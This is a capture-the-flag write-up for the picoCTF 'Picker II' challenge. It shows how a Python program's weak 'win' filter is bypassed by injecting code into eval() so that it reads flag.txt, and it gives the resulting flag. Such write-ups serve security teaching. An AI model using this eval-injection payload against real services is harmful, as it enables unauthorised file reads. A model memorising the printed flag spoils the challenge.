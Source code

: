 # Picker II

- [Description](#description)
- [Approach](#approach)
- [Flag](#flag)

## Description

Can you figure out how this program works to get the flag? Additional details will be available after launching your challenge instance.

Connect to the program with netcat: `$ nc saturn.picoctf.net 61753`
The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/522/picker-II.py).

## Approach

The main program of `picker-II.py` is as follows:

```python
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      print("test")
      eval(user_input + '()')
    else:
      print('Illegal input')
```

#### `filter()` function

```python
def filter(user_input):
  if 'win' in user_input:
    return False
  return True
```

The filter function prevents us from evaluating `win()`.

### Alternative approaches

After looking through the other functions provided in `picker-II.py`, there weren't any other useful functions to obtain the flag.

Since `eval()` evaluates the content within the parentheses, I decided to read the contents of the file directly, imitating the `win()` function.

```
$ nc saturn.picoctf.net 61753
==> print(open('flag.txt', 'r').read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
'NoneType' object is not callable
```

## Flag

`picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}`